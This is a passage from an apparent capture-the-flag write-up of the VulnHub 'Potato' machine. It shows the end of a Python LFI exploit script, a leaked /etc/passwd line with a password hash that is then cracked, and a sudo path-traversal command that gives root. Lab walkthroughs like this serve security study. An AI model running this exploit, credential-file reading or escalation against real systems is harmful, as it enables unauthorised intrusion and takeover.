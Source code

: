 ```py
            print("[+] Exxxxitting.... !! [+]")
            print()
            break

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()

    rhost = args.target

    '''Here we call the functions'''
    # Just login
    loginAdmin(rhost)
    # Read LFI
    readFile(rhost)

if __name__ == '__main__':
    main()
```

# Root

We got the /etc/passwd and it has a password in it

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-25-VulnHub-Potato/2021-11-25-VulnHub-Potato%2008:51:18.png)

```
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash
```

It's possible md5 unix

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-25-VulnHub-Potato/2021-11-25-VulnHub-Potato%2008:51:51.png)

We crack it

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-25-VulnHub-Potato/2021-11-25-VulnHub-Potato%2008:54:26.png)

Login in the ssh server

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-25-VulnHub-Potato/2021-11-25-VulnHub-Potato%2008:54:45.png)

We find a command which we can execute as root in this box, with `sudo -l`

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-25-VulnHub-Potato/2021-11-25-VulnHub-Potato%2008:55:08.png)

And we become root

```sh
echo "/bin/bash" >> root.sh
chmod +x root.sh
sudo /bin/nice /notes/../home/webadmin/root.sh 
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-25-VulnHub-Potato/2021-11-25-VulnHub-Potato%2008:57:00.png)